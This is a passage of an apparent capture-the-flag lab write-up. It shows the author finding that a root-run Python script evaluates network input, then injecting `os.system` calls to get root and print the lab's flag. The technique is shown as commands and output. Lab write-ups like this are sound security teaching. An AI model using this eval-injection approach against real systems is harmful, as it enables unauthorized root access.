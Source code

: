 I disconnected from the netcat session and tabbed back to the session where the `/opt/wep2.py` script is started. Immediately it became clear what was going on:

```bash
kefka@adm:~$ sudo /opt/wep2.py
Traceback (most recent call last):
  File "<string>", line 1, in <module>
NameError: name 'ls' is not defined
Traceback (most recent call last):
  File "<string>", line 1, in <module>
NameError: name 'whoami' is not defined
Traceback (most recent call last):
  File "<string>", line 1, in <module>
NameError: name 'ls' is not defined
Traceback (most recent call last):
  File "<string>", line 1, in <module>
NameError: name 'uname' is not defined
  File "<string>", line 1
    ?
    ^
SyntaxError: invalid syntax
Traceback (most recent call last):
  File "/opt/wep2.py", line 94, in <module>
    handler(sock, addr)
  File "/opt/wep2.py", line 74, in handler
    sock.send(p1)
socket.error: [Errno 32] Broken pipe
kefka@adm:~$
```

It seems like I have a kind of python shell? After a bit of fiddling around, I eventually started getting something usefull out of it:

```bash
0W6U6vwG4W1V
> import os; os.system('id');
uid=0(root) gid=0(root) groups=0(root)
```

Yay :) I went straight for the `cat /root/flag`:

```bash
> import os; os.system('cat /root/flag');
    _  __                             _
   | |/ /   __ __   __ _     ___     (_)      _ _
   | ' <    \ I /  / _` |   (_-<     | |     | '_|
   |_|\_\   _\_/_  \__,_|   /__/_   _|_|_   _|_|_
  _|"""""|_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|
  "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'

Pbatenghyngvbaf ba orngvat Xinfve - V ubcr lbh rawblrq
gur evqr.  Gnxr uvf oybbq, zvk jvgu ubarl naq qevax
gur Zrnq bs Cbrgel...

Ovt fubhg bhg gb zl orgn grfgref: @oneeronf naq @GurPbybavny.
Fcrpvny gunaxf gb Onf sbe uvf cngvrapr qhevat guvf raqrnibhe.

Srry serr gb cvat zr jvgu gubhtugf/pbzzragf ba
uggc://jv-sh.pb.hx, #IhyaUho VEP be Gjvggre.

  enfgn_zbhfr(@_EnfgnZbhfr)
>
```

